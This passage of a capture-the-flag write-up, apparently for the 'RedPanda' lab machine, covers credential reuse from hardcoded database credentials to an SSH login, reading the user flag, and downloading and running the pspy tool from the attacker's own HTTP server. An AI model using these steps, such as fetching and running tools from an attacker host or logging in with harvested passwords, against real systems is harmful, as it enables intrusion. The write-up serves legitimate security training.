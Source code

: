 ```bash
            }                                                                                       
        }catch(Exception e){ System.out.println(e);}                                                
        return pandas;                                                                              
    }                                                                                               
}
```

Specifically here: 

```bash
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```

We try to use these credentials to login via ssh, so we now are in a real shell.

```bash
$ ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
woodenk@redpanda:~$ cat user.txt 
7b8**************************11d
woodenk@redpanda:~$
```

We want to use pspy (https://github.com/DominicBreuker/pspy) to view the processes without having root permissions, as we do not have those. 

We first download the pspy64 executable, and host this on a simple http server on our own pc (in the folder where pspy is located):

```bash
python -m http.server 8000
```

Next, we download the pspy64 file on the shell and run it:

```bash
woodenk@redpanda:~$ cd /tmp
woodenk@redpanda:/tmp$ wget 10.10.14.5:8000/pspy64
--2022-09-25 12:51:36--  http://10.10.14.5:8000/pspy64
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                   100%[================================>]   2.94M  9.71MB/s    in 0.3s    

2022-09-25 12:51:37 (9.71 MB/s) - ‘pspy64’ saved [3078592/3078592]
woodenk@redpanda:/tmp$ chmod +x ./pspy64
woodenk@redpanda:/tmp$ ./pspy64
```

We see that sometimes a specific jar file is executed by root: 
